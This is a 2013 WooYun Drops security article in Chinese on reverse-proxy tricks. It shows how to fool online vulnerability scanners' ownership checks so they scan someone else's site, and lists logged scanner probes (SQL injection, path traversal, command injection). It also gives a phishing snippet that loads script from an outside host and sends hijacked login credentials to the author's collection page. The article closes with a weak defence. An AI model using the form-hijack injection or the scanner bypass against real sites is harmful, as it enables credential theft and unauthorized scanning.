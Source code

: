 # 反向代理的有趣用法

2013/08/27 10:53 | [VIP](http://drops.wooyun.org/author/VIP "由 VIP 发布") | [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章"), [运维安全](http://drops.wooyun.org/category/%e8%bf%90%e7%bb%b4%e5%ae%89%e5%85%a8 "查看 运维安全 中的全部文章") | 占个座先 | 捐赠作者

## 0x00 简介

* * *

首先请各位客官看这里:[`viptest.yupage.com`](http://viptest.yupage.com)

这便是一个使用开源程序 7ghost 搭建的反向代理演示站。

反向代理，是指反向代理服务器从目标内容服务器上抓取内容返回给用户，反向代理服务器充当了一个中介的功能，它本身是没有任何内容的。整个流程如下：

![2013081909582854868_jpg.jpg](img/img1_u108_jpg.jpg)

整个流程非常简单，只需要负责映射请求的.htaccess 和负责抓取内容的 index.php 就可完成，中间还可以通过正则表达式等实现内容和网址的替换。

这种技术还广泛运用于小偷程序中。

## 0x01 用反向代理让漏洞检测平台帮我们扫漏洞

* * *

现在有一些在线漏洞检测平台（如 360 安全宝等），都能让我们对目标网站的安全状况有一个初步的了解。但是，这些漏洞检测平台都是需要验证所有权的，那么，我们能不能绕过这个限制呢？反向代理能解决这个问题。

首先，使用设置好反向代理的目标（如 wooyun.org），然后将我们配置好了反向代理程序的网址输入到漏洞检测平台，选取代码验证方式，在我们的核心中转页面（index.php）中插入这段代码，就能够通过漏洞扫描平台的验证，扫目标站的漏洞了。

## 0x02 搭建一个“蜜罐”来抓取漏洞扫描平台的扫描语句

* * *

各个在线漏洞扫描平台都看上去非常高端洋气国际化的样子，那么，它们是怎么扫描的呢？可以使用反向代理来抓扫描语句。

首先，在 index.php 核心中转文件中加入一段代码，将所有请求记录到 log.txt 中

```
$data = $_SERVER['REQUEST_URI'] . "\n";
if ($_POST) {
    foreach ($_POST as $key => $value) {
        $data.= "$key=$value" . '\n';
    }
}
file_put_contents("log.txt", $data, FILE_APPEND);

```

然后将搭建好的“蜜罐”丢给 360 漏洞扫描平台扫描，大约 1 个小时后，去看看 log.txt，已经记录下了上千条扫描日志，由于日志太长，无法全部贴上来，选取几条有代表性的贴上来，并注释了一下可能的用途，全部日志请在[`viptest.yupage.com/log.txt`](http://viptest.yupage.com/log.txt)查看。

```
/index.php 用蜘蛛从主页层层抓取页面
/akjkl678686hjhjk/ 抓取 404 页面标识
/admin/ 扫描后台地址
/backup/ 找备份
/bugs/new_confirm/phpmyadmin/ 找 phpmyadmin 空口令
/crossdomain.xml 看有没有 flash 跨域限制
/bugs/new_submit/fckeditor/upload/ 找有漏洞的编辑器
/examples/jsp/cal/cal2.jsp?time= 检测 XSS
/job.php?action=list%27and%28123%29%3D%27321 扫描 SQL 注射
/?&redirect:%25{13579246-1} 扫 Struts2
/bugs/phpinfo.php 扫 phpinfo
/job.php?action=../../../../../../../../../../../../boot.ini%00.htm 扫任意文件读取
/user.php?action=login%7Cping+-n+12+127.0.0.1 扫命令执行 
```

除此之外，还大量扫描了一些不存在的页面，如/bugs/new_unclaimed/fckeditor/ajkljlhjh/，不知道有何用意。

## 0x03 钓鱼

* * *

由于所有经过反向代理服务器的页面都可以控制，所以我们也可以利用此进行钓鱼。请各位看这里：[`viptest.yupage.com/user.php?action=login`](http://viptest.yupage.com/user.php?action=login)

我使用正则表达式在该页面中插入了一段这样的代码

```
<script src="http://pujun.li/xss.js"></script><script>xss.xform(document.forms[1],'http://vip.yupage.com/wy.php');</script> 
```

使用了长短短的表单劫持代码，这样如果用户在我的演示站登录乌云帐号时就会自动把乌云帐号发送到我的一个接受页面，而还是能正常登录的。除此之外，由于所有经过反向代理服务器的页面都可以控制，我们还可以做很多事，如在页面中动态插入一个 xsser.me 盗 cookies 等。

## 0x04 如何防止被反向代理

* * *

看完了反向代理的危害后，如何防止自己的站被反向代理呢？有一段代码能够较好地防止被反向代理

.htaccess:

```
RewriteEngine On RewriteBase / php_value auto_append_file proxy.php proxy.php: 
```

```
<?php  
    if ((getenv("HTTP_X_FORWARDED_FOR")!="")&&($getenv("HTTP_HOST")!="wooyun.org")){  
        exit();  
    }  
?>

```

实际上 XFF 头完全可以伪造，此方法并不能完全防御住~

**Tags:** [代理](http://drops.wooyun.org/tag/%e4%bb%a3%e7%90%86)

版权声明：未经授权禁止转载 [VIP](http://drops.wooyun.org/author/VIP "由 VIP 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [webgame 中常见安全问题、防御方式与挽救措施](http://drops.wooyun.org/papers/2677)
*   [第三方接口 黑客怎么爱你都不嫌多](http://drops.wooyun.org/papers/2803)
*   [基于 ossec logstash es 大数据安全关联分析](http://drops.wooyun.org/tips/2821)
*   [header 的安全配置指南](http://drops.wooyun.org/tips/1166)
*   [闲扯下午引爆乌云社区“盗窃”乌云币事件](http://drops.wooyun.org/papers/382)
*   [关于 OpenSSL“心脏出血”漏洞的分析](http://drops.wooyun.org/papers/1381)